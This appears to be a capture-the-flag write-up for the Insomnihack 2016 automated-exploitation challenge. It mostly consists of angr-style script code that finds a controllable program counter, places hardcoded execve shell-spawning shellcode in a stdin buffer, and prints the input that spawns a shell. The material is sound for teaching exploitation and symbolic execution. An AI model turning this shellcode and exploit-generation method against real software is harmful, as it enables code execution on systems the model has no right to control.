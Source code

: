 # Insomnihack 2016 - AEG

In this challenge we have to create an automated exploitation script.
We set the keep_unconstrained flag, that allows us to find states where we have control of the program counter, and set extra options that allow us to automatically get the address of our buffer.
We disable verbose step so that we don't get spammed with step info like registers etc.
```
load '../../repo/angr_examples/examples/insomnihack_aeg/demo_bin'
keep_unconstrained
set_entry_state add_options=['REVERSE_MEMORY_NAME_MAP', 'TRACK_ACTION_HISTORY']
verbose_step False
```
## Find a vulnerable state

Here we search our exploitable state, by checking unconstrained states for symbolic program counters.
Once we have a state where we have a controlled program counter we move over to the exploitation step.
```
def fully_symbolic(state):
    fully_sym = True
    for s in (chop_symbol &reg.pc):
        if False == (is_symbolic s):
            fully_sym = False
    return fully_sym
            
exploitable_state_index = -1
while exploitable_state_index < 0:
    println exploitable_state_index
    step
    unconst = len (list_states unconstrained)
    for i in range(unconst):
        print "Checking the unconstrained states to see if they give control over the pc.\nStates to check:  "
        println (len (list_states unconstrained))
        select_state i unconstrained
        if fully_symbolic &state:
            println "Vulnerable state found, continue to exploit..."
            exploitable_state_index = i
            break
        else:
            move_state_to_stash i 'unconstrained' 'pruned'
```

# Exploiting the vulnerability

Now all we have left to do is set our shellcode in the buffer and make the PC point to that shellcode.
To do this we get the addresses our input occupies, then we check for a place where we have space for the shellcode and return that address.
```
def check_payload_fit(addr, addresses, length):
    result = True
    for i in range(length):
        to_test = addr + i
        if to_test in addresses:
            result = True
        else:
            result = False
            break
    return result
        


def get_controled_buffer_addr(shellcode_length):
    buffer_name = ""
    for var in get_stdin_variables:
        for n in &vars.var[0].variables:
            buffer_name = n

    target_address = -1
    buffer_addresses = get_addr_for_name buffer_name
    for addr in buffer_addresses:
        if (check_payload_fit addr buffer_addresses shellcode_length):
            target_address = addr
            break
    return target_address

shell_code = 0x6a68682f2f2f73682f62696e89e331c96a0b5899cd80
control_buffer_addr = get_controled_buffer_addr 22
```

Finally, we have to add two constraints, one that sets the shellcode in our buffer and one that sets the PC to point to the shellcode
We check if we have found a valid control buffer address and if the required constraints are satisfiable.
If they are satisfiable we add them and print the exploit string in hex.
```
if satisfiable &reg.pc == control_buffer_addr && &mem[control_buffer_addr->22] == shell_code && control_buffer_addr > 0:
    add_constraint &mem[control_buffer_addr->22] == shell_code
    add_constraint &reg.pc == control_buffer_addr

    to_hex (dump_stdstream stdin)

    print "Required input to spawn a /bin/bash shell: "
    println (dump_stdstream stdin)
else:
    println "Could not place the shellcode in the buffer and set the PC to the buffer address"

```